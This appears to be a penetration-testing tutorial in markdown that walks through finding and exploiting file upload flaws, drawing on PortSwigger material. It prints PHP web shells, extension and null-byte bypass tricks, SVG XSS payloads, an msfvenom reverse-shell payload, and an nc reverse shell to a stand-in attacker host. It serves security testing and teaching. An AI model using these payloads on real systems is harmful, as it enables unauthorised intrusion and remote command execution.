 # File Upload Attacks

[Relative Cheat Sheet](./file-upload-cheat.md)

## Step-by-Step Guide for Testing and Exploiting File Upload Vulnerabilities

### 1. Understand File Upload Vulnerabilities
   - **Explanation**: File upload vulnerabilities occur when applications allow uploading files without proper validation of type, content, or size, potentially leading to remote code execution (RCE) via malicious scripts, client-side attacks like XSS, or denial-of-service (DoS) via resource exhaustion.
   - **Why It's Done**: Understanding the risks (e.g., executing a PHP shell or injecting XSS) helps prioritize testing for high-impact vulnerabilities.
   - **Example**: Uploading `shell.php` with `<?php system($_GET['cmd']); ?>` that executes commands when accessed.

### 2. Identify Upload Features
   - **Explanation**: Locate forms or API endpoints with `<input type="file">` or file upload functionality, such as profile picture uploads or document submissions.
   - **Why It's Done**: These are the entry points for testing; missing them could overlook critical vulnerabilities.
   - **Example**: A user profile page with an avatar upload form.

### 3. Test Unrestricted Uploads
   - **Explanation**: Attempt to upload a malicious file, like a PHP web shell (`<?php system($_REQUEST['cmd']); ?>`), and access it to see if it executes.
   - **Why It's Done**: Lack of validation allows immediate RCE, the highest-impact exploit.
   - **Example**: Upload `shell.php` and access `/uploads/shell.php?cmd=id` to see if `id` command runs.

### 4. Analyze Server File Handling
   - **Explanation**: Determine how the server processes uploaded files—check if it relies on extensions, MIME types, or content inspection, and whether files are executable.
   - **Why It's Done**: Understanding handling (e.g., PHP files executed vs. served as text) informs bypass strategies.
   - **Example**: Upload `test.php` and see if it’s executed or downloaded as plain text.

### 5. Bypass Client-Side Validation
   - **Explanation**: Use a proxy (Burp Suite) or disable JavaScript (DevTools, CTRL+SHIFT+C) to bypass client-side checks on file types or sizes.
   - **Why It's Done**: Client-side validation is easily bypassed, exposing server-side weaknesses.
   - **Example**: Change `image/jpeg` to `application/x-php` in intercepted request.

### 6. Bypass Blacklist-Based Validation
   - **Explanation**: Try uncommon extensions (`phtml`, `php3`), case variations (`pHp`), or double extensions (`shell.php.jpg`) to evade extension blacklists.
   - **Why It's Done**: Blacklists are often incomplete or poorly implemented, allowing malicious files through.
   - **Example**: Upload `shell.phtml` if `.php` is blocked but `.phtml` is not.

### 7. Bypass Whitelist or Content Validation
   - **Explanation**: Use polyglots (files valid as both image and code), null bytes (`shell.php%00.jpg`), or inject characters (`%20`, `%0a`) to trick validation.
   - **Why It's Done**: Whitelists or content checks may miss edge cases, enabling execution.
   - **Example**: Create a JPEG with PHP code in metadata using ExifTool, upload as `image.jpg`.

### 8. Test for Race Conditions
   - **Explanation**: Rapidly upload files to exploit temporary file storage before validation or deletion.
   - **Why It's Done**: Race conditions can allow access to files before they’re removed.
   - **Example**: Fuzz temporary file names like `/tmp/phpXXXXXX` during upload.

### 9. Test Client-Side Attacks
   - **Explanation**: Upload files triggering client-side vulns, like SVG with `<script>alert(1)</script>` for XSS or XML with XXE payloads.
   - **Why It's Done**: If RCE is blocked, client-side attacks still have impact.
   - **Example**: Upload `malicious.svg` with `<svg onload=alert(1)>` and access it.

### 10. Escalate to RCE or Other Impacts
   - **Explanation**: If a file executes, use it for RCE (e.g., reverse shell via `msfvenom -p php/reverse_php`). Chain with LFI for further exploitation.
   - **Why It's Done**: Maximizes impact, turning upload into full system access.
   - **Example**: Upload `shell.php`, access `/uploads/shell.php?cmd=nc -e /bin/sh attacker_ip 9001`, or use FTP (see [FTP Cheat Sheet](./ftp-cheat.md)) to upload via an open server.

### 11. Assess Prevention Measures
   - **Explanation**: Check for strong validation (whitelists, content checks), random file names, or non-executable upload directories.
   - **Why It's Done**: Informs remediation, like storing files outside web root or disabling script execution.
   - **Example**: Secure app renames files to random UUIDs and serves as `Content-Type: application/octet-stream`.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, provides a thorough process for testing file upload vulnerabilities. Test ethically and report responsibly.